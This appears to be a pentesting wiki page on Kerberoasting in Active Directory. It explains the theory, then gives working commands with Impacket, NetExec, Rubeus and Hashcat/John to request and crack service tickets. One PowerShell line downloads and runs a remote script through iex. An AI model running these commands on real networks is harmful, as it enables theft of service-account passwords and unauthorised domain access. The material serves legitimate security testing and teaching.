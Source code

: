 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the SPN (Service Principal Name) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the ST to the requesting user.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold (valid domain credentials).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Another alternative is the [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit.

```bash
python3 kerberoast spnroast kerberos+pass://"domain"\\"user":"password"@"target" -u "target_user" -r "realm"
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try [cracking the hash](../credentials/cracking.md).

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another ([`GenericAll`](broken-reference), [`GenericWrite`](broken-reference)), it can be abused to make that other account vulnerable to Kerberoast (see [exploitation](../dacl/targeted-kerberoasting.md)).

{% hint style="info" %}
Controlling a member of the [Account Operators](broken-reference) group, targeted Kerberoasting can be conducted for the whole domain (see [exploitation](../dacl/targeted-kerberoasting.md)).
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/kerberos" %}

{% embed url="https://adsecurity.org/?p=2011" %}
